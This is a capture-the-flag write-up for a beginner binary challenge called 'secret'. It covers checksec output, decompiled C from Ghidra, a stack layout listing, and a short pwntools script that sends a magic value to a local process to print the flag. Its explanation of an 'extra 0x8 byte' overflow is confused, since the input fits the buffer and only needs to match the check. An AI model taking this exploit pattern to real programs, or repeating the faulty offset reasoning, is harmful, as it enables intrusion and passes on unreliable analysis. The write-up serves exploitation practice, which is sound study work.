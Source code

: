 ### Binary Exploitation

### Source: TFC_21

### Basic File Checks

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/secret]
└─$ chmod +x secret 
                                                                                                                                                                                                                   
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/secret]
└─$ file secret 
secret: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c218ee479df643755efef28fb34263d506c68e61, not stripped
                                                                                                                                                                                                                   
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/secret]
└─$ checksec secret 
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/mark/Documents/Pentest/BOF/03-begineer_bof/secret/secret'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We're dealing with a x64 binary which is not stripped

The protections enabled are `NX, PIE`

Lets run the binary and see what it does

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/secret]
└─$ ./secret      
Tell me a secret
pwned
I have already heard that one, sorry
```

It asks for an input then prints some word

Lets decompile using ghidra to take a look at its functions

I'll take a look at the main function and rename some values to make it more understandable

```
int main(void)

{
  undefined8 input;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Tell me a secret");
  input = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  fgets((char *)&input,0x20,stdin);
  if (((int)input == 0xaabbccdd) && (input._4_4_ == -0x55443323)) {
    puts("hmm, interesting");
    system("cat flag");
    putchar(10);
  }
  else {
    puts("I have already heard that one, sorry");
  }
  return 0;
}
```

We see its a simple C code here's what it does

```
1. Prints out tell me a secret
2. Receives input which has an offset of 32bytes 
3. Does an if check which compares the user input to 0xaabbccdd twice
```

So on checking the stack main function part I see that the input variable starts with an offset of 0x28 bytes but the input being received is 0x20 bytes

```
                             **************************************************************
                             *                       THUNK FUNCTION                       *
                             **************************************************************
                             thunk undefined frame_dummy()
                               Thunked-Function: register_tm_clones
             undefined         AL:1           <RETURN>
                             frame_dummy                                     XREF[3]:     Entry Point(*), 
                                                                                          __libc_csu_init:00101281(c), 
                                                                                          00103de8(*)  
        00101170 e9 7b ff        JMP        register_tm_clones
                 ff ff
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             int __stdcall main(void)
             int               EAX:4          <RETURN>
             undefined8        Stack[-0x10]:8 local_10                                XREF[1]:     001011bf(W)  
             undefined8        Stack[-0x18]:8 local_18                                XREF[1]:     001011b7(W)  
             undefined8        Stack[-0x20]:8 local_20                                XREF[1]:     001011af(W)  
             undefined8        Stack[-0x28]:8 input                                   XREF[5,1]:   001011a7(W), 
                                                                                                   001011ce(*), 
                                                                                                   001011df(*), 
                                                                                                   001011e3(*), 
                                                                                                   001011ec(*), 
                                                                                                   001011f4(*)  
                             main                                            XREF[4]:     Entry Point(*), 
                                                                                          _start:001010ad(*), 00102084, 
                                                                                          00102130(*)  
 ```
 
 From this we can conclude that we have addition 0x8 byte
 
 This is good because we know that the program sets the input to be 0 and we have total control over the input variable
 
 So we can take advantage of the 0x8 byte left by overwriting the input variable with the value the if statement checks 
 
 Here's the python script 
 
 ```
 from pwn import *

sh = process("./secret")
print(sh.recv().decode())
sh.sendline(p32(0xaabbccdd)*2)
print(sh.recvall().decode())
 ```
 
 On running it we get the flag
 
 ```
 ┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/secret]
└─$ python2 exploit.py
[+] Starting local process './secret': pid 77645
Tell me a secret

[+] Receiving all data: Done (40B)
[*] Process './secret' stopped with exit code 0 (pid 77645)
hmm, interesting
FLAG{Y0U_N33D_T0_PWN}
```

And we're done



<br> <br>
[Back_To_Home](../../index.md)
</br>
